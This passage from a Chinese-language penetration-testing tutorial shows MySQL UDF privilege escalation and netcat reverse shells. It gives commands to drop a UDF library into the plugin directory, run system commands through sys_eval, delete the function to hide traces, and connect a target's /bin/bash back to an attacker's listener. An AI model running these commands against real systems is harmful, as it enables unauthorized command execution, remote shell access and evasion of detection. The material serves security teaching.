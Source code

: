   

```
select unhex('udf十六进制') into dumpfile 'usr/lib64/mysql/plugin/1.so';
```

  
 (plugin路径/1.so)  
  
1. 声明函数 
```
create function sys_eval returns string soname '1.so';
```

  
  
1. 执行高权限命令 
```
select sys_eval('whoami');
```

  
  
1. 清除痕迹 
```
drop function sys_eval;
```

  
  
windows soname动态链接库指向udf.dll，linux指向.so文件，所以声明的函数也要是.so文件里的。  
  
详情请见上篇windows提权  
# 反弹shell  
- 反弹shell使用场景:防火墙会阻止客户端主动连接服务器，但是服务器连接客户端通过防火墙时，可以穿透到达客户端  
  
## nc  
  
netcat简称nc，被称为渗透测试中的瑞士军~~~~刀。  
  
它可以用作端口监听、端口扫描、远程文件传输、远程shell等  
- 语法:
```
nc [-hlnruz][-g 网关][-G 指向器数目][-i 延迟秒数][-o 输出文件][-p 通信端口][-s 来源IP][-v 次数][-w 超时秒数][主机名称][通信端口...]
```

  
  
- 反向shell  
  
假设在目标主机找到了RCE漏洞，可以在目标主机上用nc发出命令启动反向shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IS2RlFMDPK4qanadx6YN6xVvm8EDpl4O7UAWCxsFQkLxh1Q7qIiczbDfaweicwK9sbRQaDibfNBKNaWUG3f1wc2UA/640?wx_fmt=png&from=appmsg "")  
  
  
1. 在攻击机或vps上监听本地端口
```
nc -lvp 监听端口号
```

  
  
1. 靶机命令，连接攻击机的监听端口
```
nc 攻击机ip 监听端口号 -e /bin/bash
```
